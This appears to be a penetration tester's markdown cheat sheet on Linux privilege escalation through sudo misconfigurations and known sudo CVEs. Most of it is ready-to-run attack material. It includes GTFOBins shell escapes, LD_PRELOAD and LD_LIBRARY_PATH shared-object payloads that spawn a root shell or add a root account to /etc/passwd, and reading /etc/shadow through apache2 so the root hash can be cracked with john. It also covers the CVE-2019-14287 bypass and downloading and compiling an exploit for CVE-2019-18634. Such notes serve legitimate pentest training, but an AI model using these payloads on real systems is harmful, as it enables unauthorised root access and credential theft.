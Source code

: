 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Sudo bins
```bash - target
sudo -l
```

```firefox
https://gtfobins.github.io/
```

Search what you're looking for, und "Sudo" section.

#### Text editor
Say we find a tool we can run as sudo, knife in this example.  In the manpage, it describes we can edit in a text editor.

![[Pasted image 20220922105222.png]]

```bash - target
sudo knife data bag create 1 2 -e vi
```

```bash - target
:!/bin/sh
```

#### Sudo shell escaping
```bash - kali
https://touhidshaikh.com/blog/2018/04/abusing-sudo-linux-privilege-escalation/
```

#### LD Preload
```bash - target
sudo -l
```

![[Pasted image 20221115134849.png]]

```bash - target
nano shell.c
```

```bash - target
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
```

```bash - target
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Now just run the following command with any option from "sudo -l" :
MAKE SURE to use the full path for the shell.so file.

```bash - target
sudo LD_PRELOAD=/home/user/shell.so apache2
```

```bash - target
id
```

#### LD_LIBRARY_PATH
Here we have a elf file on a cron schedule for every minute.  We can write to /usr/local/lib/dev

![[Pasted image 20220318123807.png]]

We go to /usr/bin and try to execute log-sweeper, we find a message:
![[Pasted image 20220318124218.png]]

We can create a malicious utils.c:

```bash - target
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' >> /etc/passwd");
}
```

```bash - target
gcc -fPIC -shared -o utils.so utils.c -nostartfiles
```

Now just put the ustils.so file in the writable LD_LIBRARY_PATH and wait for the cron job to execute.

```bash - target
su newroot
```

```bash - target
password
```

#### Apache2

1. List the programs your user is allowed to run via sudo:

```bash - target
sudo -l
```

 >(root) NOPASSWD: /usr/sbin/apache2

Note that apache2 is in the list.

2. apache2 doesn’t have any known shell escape sequences, however when parsing a given config file, it will error and print any line it doesn’t understand.

3. Run apache2 using sudo , and provide it the /etc/shadow file as a config file:

```bash - target
sudo apache2 -f /etc/shadow
```

Syntax error on line 1 of /etc/shadow:

```Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration```

![[Pasted image 20211230153252.png]]

4. Extract the root user’s hash from the file.

5. Save the password hash in a file (e.g. hash.txt):

```echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt'```

6. Crack the password hash using john:

```bash - kali
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])```

7. Use the su command to switch to the root user, entering the password we cracked when prompted:

```bash - target
su
```

```bash - target
password123
```

```bash - target
id
```

>uid=0(root) gid=0(root) groups=0(root)


#### sudo -l !root

```
https://www.exploit-db.com/exploits/47502
```

![[Pasted image 20211230153039.png]]

```bash - target
sudo -u#-1 /bin/bash
```

![[Pasted image 20211230153054.png]]

#### sudo -l different user
1. List the programs your user is allowed to run via sudo:

```bash - target
sudo -l
```

![[Pasted image 20211230153125.png]]

2. For each program in the list, see if there is a shell escape sequence on GTFOBins ([https://gtfobins.github.io/](https://gtfobins.github.io/))

3. If an escape sequence exists, run the program via sudo and perform the sequence to spawn a root shell.

```bash - target
sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'
```


#### CVE 2019-14287
```firefox - kali
https://www.exploit-db.com/exploits/47502
```

```bash - target
sudo -u#-1 /bin/bash
```

#### CVE-2019-18634
```bash - target
sudo -V
```

```bash - kali
https://nvd.nist.gov/vuln/detail/CVE-2019-18634
```

```bash - kali
wget https://raw.githubusercontent.com/saleemrashid/sudo-cve-2019-18634/master/exploit.c
```

```bash - kali
https://www.sudo.ws/security/advisories/pwfeedback/
```

```bash - target
wget http://$KALI/exploit.c
```

```bash - target
gcc exploit.c -o exploit
```

```bash - target
./exploit
```

Hit enter a time or two.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
